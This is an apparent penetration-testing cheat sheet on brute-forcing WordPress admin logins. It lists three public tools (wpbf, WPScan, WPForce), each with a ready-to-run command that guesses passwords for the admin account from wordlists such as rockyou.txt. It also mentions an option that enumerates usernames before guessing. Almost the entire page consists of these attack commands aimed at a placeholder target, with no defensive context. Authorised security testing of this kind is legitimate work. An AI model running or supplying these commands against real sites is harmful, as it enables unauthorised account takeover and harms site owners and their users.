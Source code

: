 # Bruteforcing WordPress
Bruteforce tools: 
https://github.com/search?o=desc&q=wordpress+bruteforce&s=&type=Repositories

## wpbf
https://github.com/atarantini/wpbf
```bash
python wpbf.py -w passwords.txt -u admin http://<target-wordpress>
```

## WPScan
https://github.com/wpscanteam/wpscan
```bash
wpscan --url http://<target-wp> --wordlist /usr/share/wordlist/rockyou.txt --username admin
## You can leave out --username. Then it will first enumerate all usernames and then begin bruteforce
wpscan --url http://<target-wp> --wordlist /usr/share/wordlist/rockyou.txt
```

WPForce
link: https://github.com/n00py/WPForce
```bash
python wpforce.py -i users.txt -w /usr/share/wordlists/rockyou.txt -u http://<target-wp>
```